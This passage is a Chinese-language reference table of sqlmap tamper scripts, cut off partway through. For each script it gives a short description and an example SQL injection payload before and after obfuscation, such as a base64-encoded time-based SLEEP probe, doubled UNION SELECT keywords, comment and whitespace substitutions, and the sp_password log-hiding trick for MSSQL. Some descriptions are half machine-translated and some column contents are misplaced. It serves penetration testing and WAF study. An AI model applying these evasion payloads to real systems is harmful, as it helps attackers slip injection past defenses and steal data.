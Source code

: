 <table cellspacing="0"><tbody><tr><td width="34" height="67"><strong>支持的数据库</strong></td><td width="23" height="67"><strong>编号</strong></td><td width="129" height="67"><strong>脚本名称</strong></td><td width="5" height="67"><strong>作用</strong><br></td><td width="111" height="67"><strong>实现方式</strong></td><td width="101" height="67"><strong>测试通过的数据库类型和版本</strong></td></tr><tr><td rowspan="8" width="64">ALL</td><td width="18"><strong>1</strong></td><td width="147">apostrophemask.py</td><td width="5">用 utf8 代替引号</td><td width="218">("1&nbsp;AND'1'='1")&nbsp;<br>'1&nbsp;AND&nbsp;%EF%BC%871%EF%BC%87=%EF%BC%871'&nbsp;</td><td width="101"><br></td></tr><tr><td width="21"><strong>2</strong></td><td width="69">base64encode.py&nbsp;</td><td width="227">用 base64 编码替换</td><td width="50">("1'&nbsp;AND&nbsp;SLEEP(5)#")<br>'MScgQU5EIFNMRUVQKDUpIw=='<br>&nbsp;</td><td width="201"><br></td></tr><tr><td width="21"><strong>3</strong></td><td width="69">multiplespaces.py</td><td width="227">围绕 SQL 关键字添加多个空格</td><td width="50">('1&nbsp;UNION&nbsp;SELECT&nbsp;foobar')<br>'1&nbsp;&nbsp;&nbsp;&nbsp;UNION&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SELECT&nbsp;&nbsp;&nbsp;foobar'</td><td width="201"><br></td></tr><tr><td width="21"><strong>4</strong></td><td width="69">space2plus.py</td><td width="227">用 + 替换空格</td><td width="50">('SELECT&nbsp;id&nbsp;FROM&nbsp;users')<br>'SELECT+id+FROM+users'</td><td width="201"><br></td></tr><tr><td width="21"><strong>5</strong></td><td width="69">nonrecursivereplacement.py</td><td width="227">双重查询语句。取代 predefined SQL 关键字 with 表示&nbsp;<br>suitable&nbsp;for 替代（例如&nbsp;&nbsp;.replace（“SELECT”、”")）&nbsp;filters</td><td width="50">('1&nbsp;UNION&nbsp;SELECT&nbsp;2--')<br>'1&nbsp;UNIOUNIONN&nbsp;SELESELECTCT&nbsp;2--'</td><td width="201"><br></td></tr><tr><td width="21"><strong>6</strong></td><td width="69">space2randomblank.py</td><td width="227">代替空格字符（“”）从一个随机的空<br>白字符可选字符的有效集</td><td width="50">('SELECT&nbsp;id&nbsp;FROM&nbsp;users')<br>'SELECT%0Did%0DFROM%0Ausers'</td><td width="201"><br></td></tr><tr><td width="21"><strong>7</strong></td><td width="69">unionalltounion.py</td><td width="227">替换 UNION&nbsp;ALL&nbsp;SELECT&nbsp;UNION&nbsp;SELECT</td><td width="50">('-1&nbsp;UNION&nbsp;ALL&nbsp;SELECT')<br>'-1&nbsp;UNION&nbsp;SELECT'</td><td width="201"><br></td></tr><tr><td width="21"><strong>8</strong></td><td width="69">securesphere.py</td><td width="227">追加特制的字符串</td><td width="50">('1&nbsp;AND&nbsp;1=1')<br>"1&nbsp;AND&nbsp;1=1&nbsp;and'0having'='0having'"</td><td width="201"><br></td></tr><tr><td rowspan="11" width="64">MSSQL</td><td width="18"><strong>1</strong></td><td width="147">space2hash.py</td><td width="5">绕过过滤‘=’&nbsp;替换空格字符（”），（’&nbsp;–&nbsp;‘）后跟一个破折号注释，一个随机字符串和一个新行（’&nbsp;n’）</td><td width="218"><br>'1&nbsp;AND&nbsp;9227=9227'&nbsp;<br>'1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'&nbsp;</td><td width="101"><br></td></tr><tr><td width="21"><strong>2</strong></td><td width="69">equaltolike.py</td><td width="227">like&nbsp;代替等号</td><td width="50"><br>*&nbsp;Input:&nbsp;SELECT&nbsp;*&nbsp;FROM&nbsp;users&nbsp;WHERE&nbsp;id=1&nbsp;<br>2&nbsp;*&nbsp;Output:&nbsp;SELECT&nbsp;*&nbsp;FROM&nbsp;users&nbsp;WHERE&nbsp;id&nbsp;LIKE&nbsp;1&nbsp;</td><td width="201"><br></td></tr><tr><td width="21"><strong>3</strong></td><td width="69">space2mssqlblank.py(mssql)</td><td width="227">空格替换为其它空符号</td><td width="50">Input:&nbsp;SELECT&nbsp;id&nbsp;FROM&nbsp;users<br>Output:&nbsp;SELECT%08id%02FROM%0Fusers</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2000<br>*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005</td></tr><tr><td width="21"><strong>4</strong></td><td width="69">space2mssqlhash.py</td><td width="227">替换空格</td><td width="50">('1&nbsp;AND&nbsp;9227=9227')<br>'1%23%0AAND%23%0A9227=9227'</td><td width="201"><br></td></tr><tr><td width="21"><strong>5</strong></td><td width="69">between.py</td><td width="227">用 between 替换大于号（&gt;）</td><td width="50">('1&nbsp;AND&nbsp;A&gt;&nbsp;B--')<br>'1&nbsp;AND&nbsp;A&nbsp;NOT&nbsp;BETWEEN&nbsp;0&nbsp;AND&nbsp;B--'</td><td width="201"><br></td></tr><tr><td width="21"><strong>6</strong></td><td width="69">percentage.py</td><td width="227">asp 允许每个字符前面添加一个 % 号</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD&nbsp;FROM&nbsp;TABLE<br>*&nbsp;Output:&nbsp;%S%E%L%E%C%T&nbsp;%F%I%E%L%D&nbsp;%F%R%O%M&nbsp;%T%A%B%L%E<br>&nbsp;</td><td width="201"><br></td></tr><tr><td width="21"><strong>7</strong></td><td width="69">sp_password.py</td><td width="227">追加 sp_password’从 DBMS 日志的自动模糊处理的有效载荷的末尾</td><td width="50">('1&nbsp;AND&nbsp;9227=9227--')<br>'1&nbsp;AND&nbsp;9227=9227--&nbsp;sp_password'</td><td width="201"><br></td></tr><tr><td width="21"><strong>8</strong></td><td width="69">charencode.py</td><td width="227">url